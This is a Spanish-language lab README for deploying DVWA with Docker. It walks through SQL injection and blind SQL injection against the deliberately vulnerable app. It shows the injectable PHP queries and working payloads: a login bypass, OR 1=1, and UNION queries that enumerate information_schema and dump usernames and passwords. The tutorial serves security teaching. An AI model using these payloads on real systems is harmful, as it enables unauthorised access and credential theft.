





# sql-injection

- [Introducción](#introducción)
- [Cómo desplegar la aplicación](#cómo-desplegar-la-aplicación)
- [Credenciales por defecto](#credenciales-por-defecto)
- [Creación de la base de datos](#creación-de-la-base-de-datos)
- [Configuración del nivel de seguridad](#configuración-del-nivel-de-seguridad)
- [SQL Injection](#sql-injection)
  - [Ejemplo 1. Hacer login sin conocer el password](#ejemplo-1-hacer-login-sin-conocer-el-password)
  - [Ejemplo 2. Obtener el listado de todos los usuarios](#ejemplo-2-obtener-el-listado-de-todos-los-usuarios)
  - [Ejemplo 3. Obtener el listado de todas las tablas de la base de datos](#ejemplo-3-obtener-el-listado-de-todas-las-tablas-de-la-base-de-datos)
  - [Ejemplo 4. Obtener las columnas de la tabla `users`](#ejemplo-4-obtener-las-columnas-de-la-tabla-users)
  - [Ejemplo 5. Obtener el listado de todos los usuarios y sus contraseñas](#ejemplo-5-obtener-el-listado-de-todos-los-usuarios-y-sus-contraseñas)
- [Blind SQL Injection](#blind-sql-injection)
  - [Ejemplo 1](#ejemplo-1)
- [Referencias](#referencias)

## Introducción

Este repositorio contiene un archivo `docker-compose.yml` para desplegar la
aplicación [Damn Vulnerable Web Application (DVWA)][1].

[DVWA][1] es una aplicación web desarrollada en PHP y MySQL que ha sido diseñada
con algunas de las vulnerabilidad más comunes que pueden aparecer en las
aplicaciones web.

Puede encontrar más información en el [repositorio oficial del proyecto DVWA][1].

## Cómo desplegar la aplicación

Para desplegar la aplicación ejecute el comando:

```
docker compose up -d
```

Para detener los contenedores:

```
docker compose down
```

Para detener los contenedores y eliminar el volumen de la base de datos:

```
docker compose down -v
```

## Credenciales por defecto

Las credenciales por defecto para acceder a la aplicación son:

- username: `admin`
- password: `password`



## Creación de la base de datos

La primera vez que acceda a la aplicación tendrá que crear la base datos
siguiendo estos pasos:

1. Seleccione en el menú principal que aparece a la izquierda la opción `Setup /
Reset DB`. 



2. Una vez que esté en la página de configuración de la base de datos, pulse
   sobre el botón `Create / Reset Database` que aparece al final de la página.



Estos pasos puede realizarlos siempre que quiera eliminar la base de datos
actual y volver a crearla con los datos por defecto.

## Configuración del nivel de seguridad

La aplicación permite configurar el nivel de seguridad desde el apartado `DVWA
Security` del menú principal.

Existen cuatro niveles de seguridad: `Low`, `Medium`, `High` y `Impossible`.



Los ejemplos que se muestran a continuación son para el nivel de seguridad
`Low`.

## SQL Injection

De todos los tipos de vulnerabilidades que existen en la aplicación vamos a
centrarnos en las de tipo [SQL Injection][2].

### Ejemplo 1. Hacer login sin conocer el password



En este ejemplo vamos a seleccionar la opción `Brute Force` del menú principal,
donde nos aparecerá un formulario con dos campos: `username` y `password`.

Al final de la página nos aparece un botón con el texto `View Source` que nos
permite ver el código fuente de la página.

El código fuente que utiliza esta aplicación para recibir los parámetros del
formulario y construir la consulta SQL es el siguiente:

```php
// Get username
$user = $_GET[ 'username' ];

// Get password
$pass = $_GET[ 'password' ];
$pass = md5( $pass );

$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
```

Podemos hacer un ataque de tipo _SQL Injection_ introduciendo el siguiente valor
en el campo `username` del formulario:

```
admin' #
```

Al enviar este valor la cadena con la consulta SQL que se ejecutará en la base
de datos será la siguiente:

```SQL
SELECT * FROM `users` WHERE user = 'admin' #' AND password = ...
```

Tenga en cuenta que todo lo que aparezca después del carácter `#` será
considerado como un comentario y no se ejecutará.

También puede comentar el resto de la consulta utilizando dos guiones **seguidos
de un espacio**, por lo tanto, si enviamos el siguiente valor en el campo
`username` del formulario también podríamos hacer un ataque de tipo SQL
Injection:

```
admin' -- 
```

Al enviar este valor la cadena con la consulta SQL que se ejecutará en la base
de datos será la siguiente:

```SQL
SELECT * FROM `users` WHERE user = 'admin' -- ' AND password = ...
```

## Ejemplo 2. Obtener el listado de todos los usuarios


En este ejemplo vamos a seleccionar la opción `SQL Injection` del menú
principal, donde nos aparecerá un formulario con un campo para introducir el
identificador de un usuario y buscarlo en la base de datos.

Al final de la página nos aparece un botón con el texto `View Source` que nos
permite ver el código fuente de la página.

El código fuente que utiliza esta aplicación para recibir el parámetro del
formulario y construir la consulta SQL es el siguiente:

```php
// Get input
$id = $_REQUEST[ 'id' ];
...
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

Podemos hacer un ataque de tipo _SQL Injection_ para obtener el listado de todos
los usuarios que existen en la base de datos, introduciendo el siguiente valor
en el campo `id` del formulario:

```
1' OR 1 = 1 #
```

Al enviar este valor la cadena con la consulta SQL que se ejecutará en la base
de datos será la siguiente:

```SQL
SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1 = 1 #';
```

Tenga en cuenta que todo lo que aparezca después del carácter `#` será
considerado como un comentario y no se ejecutará.

### Ejemplo 3. Obtener el listado de todas las tablas de la base de datos


En este ejemplo vamos a continuar con el formulario que aparece en la opción
`SQL Injection` del menú principal, donde nos aparece un campo para introducir
el identificador de un usuario y buscarlo en la base de datos.

En este caso vamos a utilizar el opedor `UNION` para ejecutar una nueva consulta
donde vamos a solicitar el listado de todas las tablas de la base de datos de la
aplicación.

En MySQL existe una base de datos llamada `information_schema` que contiene
información de todas las bases de datos que existen en el sistema gestor de
bases de datos. Dentro de esta base de datos existe una tabla llamada `tables`
que almacena información sobre todas las tablas que existen en las bases de
datos del servidor.

Puede consultar esta información ejecutando la siguiente consulta SQL desde una
consola de MySQL o desde la aplicación web phpMyAdmin que se incluye en el
despliegue de este proyecto.

```SQL
SELECT * FROM information_schema.tables;
```
Como la consulta que se ejecta en el código la aplicación devuelve dos columnas,
la nueva consulta que vamos a inyectar después del operador `UNION` también
tiene que devolver dos columnas.

Para hacer el ataque de tipo _SQL Injection_ que nos permita obtener el listado
de todas las tablas de la base de datos de la aplicación, introduciremos el
siguiente valor en el campo `id` del formulario:

```
' UNION SELECT table_name,NULL FROM information_schema.tables #
```

### Ejemplo 4. Obtener las columnas de la tabla `users`


Una vez que hemos obtenido el listado de todas las tablas de la base de datos de
la aplicación, veremos que existe una tabla llamada `users`.

Ahora vamos a realizar un ataque de tipo _SQL Injection_ para obtener las
columnas de la tabla `users`.

El valor que tendremos que introducir en el campo `id` del formulario es el
siguiente:

```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users' #
```

### Ejemplo 5. Obtener el listado de todos los usuarios y sus contraseñas


Una vez que hemos consultado cuáles son las columnas de la tabla `users`,
observamos que exsiten dos columnas con los nombres de `user` y `password`.

Vamos a realizar un ataque para obtener el listado de todos los usuarios y sus
contraseñas.

En este caso, el valor que tendremos que introducir en el campo `id` del
formulario es el siguiente:

```
' UNION SELECT user, password FROM users #
```

## Blind SQL Injection

El ataque de tipo _Blind SQL Injection_ es una técnica que se utiliza cuando una
aplicación es vulnerable a ataques de tipo SQL Injection pero está configurada
para no mostrar los resultados de las consultas que se le están inyectando.

En este caso, el atacante envía consultas SQL a la base de datos de la
aplicación vulnerable y analiza las respuestas para determinar si la consulta es
verdadera o falsa. Aunque el proceso para obtener información es lento, esta
técnica permite a un atacante extraer información de forma indirecta.

### Ejemplo 1


En este ejemplo vamos a seleccionar la opción `SQL Injection (Blind)` del menú
principal, donde nos aparecerá un formulario con un campo para introducir el
identificador de un usuario y buscarlo en la base de datos.

Para comprobar si la aplicación es vulnerable a un ataque de tipo _Blind SQL
Injection_ vamos a introducir el siguiente valor en el campo `id` del formulario:

```
1' OR 1 = 1 #
```

En este caso, la aplicación no nos devuelve el listado de todos los usuarios que
existen en la tabla `users`, pero nos devuelve un mensaje de éxito informándonos
que el usuario con el identificador `1` existe en la base de datos. Esto quiere
decir que esta aplicación es vulnerable a un ataque de tipo _Blind SQL
Injection_.

## Referencias

- [Repositorio GitHub del proyecto DVWA][1]
- [SQL Injection][2]. Wikipedia.
- [SQL injection cheat sheet][3]. Invicty Security.
- [SQL Injection][4]. OWASP.
- [Blind SQL Injection][6]. OWASP.
- [Bobby Tables: A guide to preventing SQL injection][5]


[1]: https://github.com/digininja/DVWA
[2]: https://en.wikipedia.org/wiki/SQL_injection
[3]: https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
[4]: https://owasp.org/www-community/attacks/SQL_Injection
[5]: https://bobby-tables.com 
[6]: https://owasp.org/www-community/attacks/Blind_SQL_Injection